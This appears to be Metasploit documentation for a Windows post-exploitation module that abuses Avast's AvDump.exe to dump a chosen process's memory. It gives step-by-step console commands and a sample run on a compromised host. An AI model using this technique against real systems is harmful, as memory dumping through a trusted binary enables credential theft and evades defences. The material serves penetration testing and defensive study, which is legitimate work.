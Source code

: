 ### Vulnerable Application -  Avast Home Security Suite - Avdump.exe

The Avast Home Security suite ships with a memory dumping utility that can be
leveraged to dump process memory of user defined processes to user defined 
locations.


A detailed write up can be found at https://archcloudlabs.com/projects/dumping-memory-with-av/


## Verification Steps

Verify that the path ```C:\\Program Files\\Avast Software Avast\\AvDump.exe```
exists.
1. Start msfconsole
2. Get meterpreter session
3. Do: ```use post/windows/gather/avast_memory_dump```
4. Do: ```set SESSION <session id>```
5. Do: ```set DUMP_PATH <specify path dest>```
6. Do: ```set PID <pid>```
7. Do: ```run```

## Options

**PID** 
Specify the PID of the process you would like to dump.

**DUMP_PATH** 
Specify the location to write the memory dump to.

##  Scenarios  

### Windows 10 (2004 OS Build 19041.572)
```
msf5 > search avast

Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  post/windows/gather/avast_memory_dump                   normal  No     Avast AV Memory Dumping Utility


msf5 > use 0

msf5 post(windows/gather/avast_memory_dump) > sessions -C 'ps -N notepad.exe'
[*] Running 'ps -N notepad.exe' on meterpreter session 4 (192.168.218.131)
Filtering on 'notepad.exe'

Process List
============

 PID   PPID  Name         Arch  Session  User                  Path
 ---   ----  ----         ----  -------  ----                  ----
 8504  1812  notepad.exe  x64   1        DESKTOP-CD2VHVO\user  C:\Windows\System32\notepad.exe

msf5 post(windows/gather/avast_memory_dump) > show options

Module options (post/windows/gather/avast_memory_dump):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   DUMP_PATH  C:\Users\Public\test.dmp  yes       specify location to write dump file to
   PID        8504                      yes       specify pid to dump
   SESSION    4                         yes       The session to run this module on.
   
msf5 post(windows/gather/avast_memory_dump) > set PID 8504
PID => 8504

msf5 post(windows/gather/avast_memory_dump) > set SESSION 4
SESSION => 4

msf5 post(windows/gather/avast_memory_dump) > run

[*] [2020.10.21-22:49:24] AvDump.exe exists!
[*] [2020.10.21-22:49:24] executing Avast mem dump utility against 8504 to C:\Users\Public\test.dmp
[*] [2020.10.21-22:49:29] [2020-10-22 02:49:26.969] [info   ] [dump       ] [ 1400: 8032] Dumpmaster is arming.
[2020-10-22 02:49:27.047] [info   ] [dump       ] [ 1400: 8032] Successfully dumped process 8504 into 'C:\Users\Public\test.dmp'
[2020-10-22 02:49:27.047] [info   ] [log_module ] [ 1400: 8032] LogModule is going to be destroyed.
[2020-10-22 02:49:27.047] [info   ] [log_module ] [ 1400: 8032] =====================================================================================================================
[*] Post module execution completed

```

